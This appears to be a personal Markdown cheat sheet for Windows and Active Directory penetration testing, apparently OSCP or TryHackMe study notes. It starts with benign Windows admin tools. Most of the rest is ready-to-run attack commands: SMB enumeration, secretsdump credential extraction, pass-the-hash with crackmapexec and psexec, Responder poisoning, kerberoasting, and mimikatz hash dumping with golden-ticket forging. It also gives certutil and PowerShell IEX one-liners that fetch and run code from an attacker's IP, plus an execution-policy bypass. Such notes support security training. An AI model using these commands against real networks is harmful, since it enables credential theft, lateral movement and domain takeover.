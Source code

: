 #### windows system tools 
##### Local User and Group Management 
It is a shell application to manage Windows system administrator applications.

```bash
lusrmgr.msc
```
##### System Configuration utility 

for diagnose startup issues

```bash
MSConfig
```
##### Task Manager 

to manage (enable/disable) startup items. 
```bash
taskmgr
```
##### User Account Control 
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```bash
UserAccountControlSettings.exe
```
##### Computer Management 
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```bash
compmgmt
```
##### System Information 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```bash
msinfo32
```
##### Resource Monitor 
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```bash
resmon
```
##### Windows Registry 
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```bash
regedit
```
##### Group policy objects
a collection of settings that can be applied to OUs

#### SMB enumeration 

enumerate

```bash
enum4linux -h
```
open SMB shares

```bash
smbclient -L $IP
smbclient //$IP/share # -c 'recurse;ls' 
```

enumeration
```bash
smbmap -H $IP
smbmap -H '$IP' -u '' -p '' -R 
smbmap -H '$IP' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```bash
nmap -p 139,445 -Pn -script smb-enum* $IP
nmap -p 139,445 -Pn -script smb-vuln* $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

connect with smbclient

```bash
smbclient \\\\$IP\\nt4wrksv
```

#### rdp 

```bash
rdesktop -u <username> -p <password> $IP -g 70% -r disk:folder=/home/toor/cd/apps
rdesktop -u Administrator -d CONTROLLER $IP
remmina 
```

#### AD

extract credentials and secrets from a systemdump
```bash
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```bash
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```bash
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```bash
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```bash
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```bash
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```bash
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

kerberoasting
```bash
sudo ntpdate <target ip>
impacket-GetUserSPNs domain.local/Admin:passwd -dc-ip $IP -request
```

runas.exe (to inject the credentials into memory)
```bash
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

mimikatz
```bash
privilege::debug #ensure that the output is "Privilege '20' ok"
lsadump::lsa /patch #dump hashes
lsadump::lsa /inject /name:krbtgt # dumps hash and security id of kerb ticket
kerberos::golden /user: /domain: /sid: /krbtgt: /id: #create a golden ticket!
misc::cmd #open cmd with elevated priveleges to all machines
```

links
* [WADComs (AD)](https://wadcoms.github.io/)

#### enumeration

run powershell with bypass execution policy
```bash
powershell -ep bypass
```

```powershell
whoami /priv #/groups
net user
net users
net localgroups
net user <user>
net group /domain
net user /domain
net user <user> /domain
Get-ADUser(Get-ADGroup) -Identity <user(group)> -Server <domain> -Properties *
Get-ADUser -Filter 'Name -like "*<user>"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADUser -Filter 'Name -like "*stevens"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
Get-ADDomain
netsh firewall show state
netsh firewall show config
netstat -ano
findstr /si password *.txt # .xml .ini
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *config*
```

PowerView.ps1
powershell
Invoke-ShareFinder
Windows 10 Enterprise Evaluation
get-netuser | select cn #enum domain users
Get-NetGroup -GroupName *admin* #enum domain groups
```

meterpreter
```bash
run post/multi/recon/local_exploit_suggester #in session
getsystem
getprivs
load kiwi #download mimikatz
```

view all of the hidden files in the current directory
```bash
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```


- [powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [sushant747 win priv esc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)(with vpn)
- [LOLBAS (windows)](https://lolbas-project.github.io/)
- [JAWS](https://github.com/411Hall/JAWS)
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)